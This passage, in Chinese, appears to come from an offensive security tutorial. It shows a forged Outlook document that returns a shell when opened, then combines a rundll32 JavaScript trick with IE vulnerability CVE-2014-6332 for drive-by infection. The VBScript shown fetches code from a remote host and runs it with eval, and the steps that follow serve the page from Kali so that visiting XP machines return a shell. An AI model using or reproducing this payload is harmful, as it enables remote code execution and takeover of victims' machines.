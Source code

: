 打开伪造的Outlook文档：

如图,内容中包含一个docx的图标

![Alt text](http://drops.javaweb.org/uploads/images/550295c00fcf8e022a6166415dfe308bf2b4c23d.jpg)

现在双击打开，如图

![Alt text](http://drops.javaweb.org/uploads/images/5d7d412ae0595a90e4fe920694a35536d387b638.jpg)

点击确定后，接着弹框，如图，随后弹回shell

![Alt text](http://drops.javaweb.org/uploads/images/0eedfef2308cb8b1fe379759fa163a65ed4aee94.jpg)

0x07 结合ie漏洞
=====

**结合漏洞：**`CVE-2014-6332`

**步骤：**

### 1、将JavaScript同CVE-2014-6332结合，实现挂马

修改后的关键代码为：

```
<SCRIPT LANGUAGE="VBScript">

function runmumaa() 
On Error Resume Next
set shell=createobject("wscript.shell")
shell.run "rundll32.exe javascript:""\..\mshtml,RunHTMLApplication "";document.write();h=new%20ActiveXObject(""WinHttp.WinHttpRequest.5.1"");h.Open(""GET"",""http://192.168.174.136/connect"",false);try{h.Send();B=h.ResponseText;eval(B);}catch(e){new%20ActiveXObject(""WScript.Shell"").Run(""cmd /c taskkill /f /im rundll32.exe"",0,true);}",0
end function
 </script>

```

之后将html文件放于kali上

### 2、kali上开启SimpleHTTPServer

```
python -m SimpleHTTPServer 80

```

如图![Alt text](http://drops.javaweb.org/uploads/images/b5c62ad838baef672b8add803509edfa680e7f8a.jpg)

### 3、访问`http://192.168.174.133/JavaScript.html`

xp系统访问直接弹回shell

如图![Alt text](http://drops.javaweb.org/uploads/images/95e905db5d3e0643a848b2799d961dd58eec2292.jpg)
